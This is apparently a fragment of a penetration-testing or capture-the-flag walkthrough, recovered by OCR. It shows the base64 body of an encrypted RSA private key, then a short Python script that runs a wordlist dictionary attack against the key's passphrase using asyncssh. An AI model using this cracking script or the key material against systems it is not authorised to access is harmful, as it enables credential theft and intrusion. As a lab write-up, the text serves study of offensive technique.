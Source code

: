 TRNiuBMH2lIgWgYpBb4MgbhQtW84gdUTJDRQLp/qwBv/KTbycWu+R07J2lGEFJH8
8G1nZ+bjnPayjTyywY5PGySQ4k5pWvmNin16TEAII7XO6Jv+/Ev/N4sPdKe7K3bN
TpJ39S5DVuj4oTTswvUp3dYU6ynu3Qp9PBRdBJnazbK5hwkxOyqa5l1dCfRDpaWf
hPM+GhXbHOvzj+Z9wvlrTuPASsBrCnXd/MAxRmNfDMCHlPHVATEChoP89awwoti5
itxcxqIWGIqilnlm7Dcy2lynE7LlXdXyJAnUI0Plra9PTqC4QoJL3Lyesypzp9Xk
kB9Hv25vherfgjy6AKBcIqZuALtFL2mij7nYC21XxcDudKCaB+UxOQhGBLNN0E16
7bNvnKebLmhyWhDNVaelvF9cd+mxvvPzv5ljhUd3jvhhyU70AgzrpF1ZUxVh2GOs
huzbtCIwX3I+xAQYdw+sThTRG8GcXLjreEUF4gJqlPNWk9gxH/AmfTmGKdLhhoSb
/7wHeMvLwSRaVv6fyPXhPpiB5c3MHCoHFYi6sbmmtYXJBum9fF9iubIzlRu/4vZ2
irmnsEff3vkqqPchb6M0zMtw80QPJgpjhclJjDPiI5P1DWjgLNYOQba0nKNQ3RFa
iy2lup+EsCqWU0KTI+hH+Xm0YAq2/ESqPeNp/U+78y8L5JkpavRYNJyx+vGV8XPP
dGkZD8x68xLIwF6/urZC6utRa1HgyEDIcUbyTUnbRkLUFWbN9eHLrY0pH+zhKJOj
14cUAOpB9RkxAoE6YJ03vJq72OoxfCYhiv3fj4pQRuQJwA2c8IfgdwIJqBIMVPvV
5HX3j5ugkyocLl5Rg+oXjyhNczmABJehk9gA0eCcfQpXGPw/OBMJ4BJdUHxbCOtQ
lAstu+fNBosFhkj3lHXX/ZNIKcYs9+Mvs3E2DvmcK7Us/59qsCwHRZNvd2E3EF9r
nNuHg8sY5HxMvMNH46PH8c4EesuNvOW2pvaCHCT5Id3Up1yyP09hoxyyovnPQ/Gj
HXffEjkc82t9Ip476mfo0NBzB4g7sOb4ZXhG8RxHS4d83S5bITzHP8RrlmkdKCjH
U5YMap/xQ++4XTtgX8DjVoZw1imRtNsCQk6fe0UVKzg2nFV8rkOU8A1o6NDcjE/Z
V/PsYJT3CTEvlzq1/4lLQN2nLrpwmlu+Ate5CEmKxqDIpSIzQBl5N4cU5aa/L1XG
2nFA4H1Ipo7CaUQZ3lQGC/wHaWcP0KnZQ/SrInGOQVu1RJe3MhyG3TyC06FVfmgV
m4oqf39lGQlYX8+cTCK8w6nI6gnSsW92U9j5s9iGEZKN2bI1poyurQaExFiDub6m
QzYWqY1+EUBUYzFMlR08TeHXLvoAmgJNcnZlhXuhWsl6z95UMKvRBLN3Dc4kIVZx
sBZmlYhqhwl0AWYQOl1tJrOMiqLeMhF+xWZ3J/iZ9Pj37Dz9xL8YiA8YUNC/NqT+
3j1s3USXPL0uyxS7tnJJf3aXMBi0XwwHWZg4ii8JQhGiiPhGBE9lpRyPhYCx3xDC
ED/GW22/sWS5fhDr4tynP8VdjiFwbBEcXYHa84XjeUZZaLJQTSwnE/afWVYty8AX
-----END RSA PRIVATE KEY-----


Damn! Encrypted. That’s ok. We can try a dictionary attack against the key and see if we can get the password.

now we could always use ssh2john and then pass it over to johntheripper, but instead we are going to roll our own basic python scrip[t:

root@kali: cat rsa_decrypt.py
import asyncssh  # pip install asyncssh (https://asyncssh.readthedocs.io/en/latest/api.html)

enc_file = "id_rsa FILE LICATION"
word_list = "/usr/share/seclists/Passwords/Common-Credentials/best110.txt" # Wordlist file

# Open the dictionary and loop line by line testing the password against the key
# if the private key is exported the password worked.
with open(word_list) as f:
    for line in f:
        try:
            key = asyncssh.read_private_key(enc_file, str(line.strip()))
            if key and line:
                print("Decrypted '{0}' with: {1}".format(enc_file, line))
        except Exception as ex:
            next
